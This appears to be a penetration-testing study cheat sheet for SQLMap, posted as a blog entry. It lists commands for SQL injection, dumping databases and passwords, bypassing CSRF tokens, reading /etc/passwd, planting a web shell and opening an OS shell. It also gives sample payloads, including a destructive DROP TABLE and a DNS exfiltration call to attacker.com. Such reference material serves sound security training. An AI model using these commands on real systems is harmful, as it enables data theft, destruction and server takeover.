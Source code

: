 ```yaml
---
layout: post
title: "SQLMap Essentials"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 14
---
```


| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

---

## Supported SQL Injection Types
*We see the types of SQL injections supported by SQLMap with the sqlmap -hh command*

**The technique characters BEUSTQ refers to the following:**

B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries

| **Letter** | **Type**                   | **Description**                                                                                                                  | **Example**                                           |
|------------|----------------------------|----------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------|
| B          | Boolean-based blind        | Differentiates TRUE/FALSE by comparing server responses (content, HTTP code, title, etc.), retrieving ~1 byte per request.       | `AND 1=1` vs. `AND 1=2`                               |
| E          | Error-based                | Leverages DBMS error messages to carry query results (“chunks” up to ~200 bytes).                                               | `AND GTID_SUBSET(@@version,0)`                        |
| U          | Union query-based          | Appends a `UNION SELECT` to combine original results with injected data, potentially dumping entire tables in one go.           | `UNION ALL SELECT 1,@@version,3`                      |
| S          | Stacked queries            | “Piggy-backs” multiple SQL statements (INSERT/UPDATE/DELETE/OS commands) if the platform allows it (e.g. MSSQL, PostgreSQL).    | `; DROP TABLE users`                                  |
| T          | Time-based blind           | Uses response delays (e.g. `SLEEP()`) to infer TRUE/FALSE when Boolean-blind isn’t possible (e.g. non-query contexts).           | `AND IF(2>1,SLEEP(5),0)`                              |
| Q          | Inline queries             | Embeds a sub-query within the original statement to return data inline; less common but supported if the app’s SQL allows it.    | `SELECT (SELECT @@version) FROM users`                |
| OOB        | Out-of-Band (DNS exfil)    | Forces the DBMS to make external DNS requests carrying query results (e.g. via `LOAD_FILE(CONCAT('\\\\',@@version,…))`).       | `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\x'))` |

---